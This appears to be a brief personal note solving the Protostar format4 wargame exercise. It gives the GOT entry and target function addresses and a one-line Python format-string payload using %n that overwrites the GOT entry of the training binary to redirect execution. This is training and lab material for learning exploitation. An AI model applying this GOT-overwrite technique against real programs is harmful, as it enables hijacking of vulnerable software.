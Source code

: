 # Protostar - format4
0x8049724 -- address of GOT TABLE OFFSET 
0x080484b4 <hello+0>    hello address   {@134513839  decimal value  + 5 }
the idea here to change the address of the entry of the GOT ≈

````BASH
python -c 'print "\x24\x97\x04\x08"+"%134513839d"+"%4$n"' | ./format4


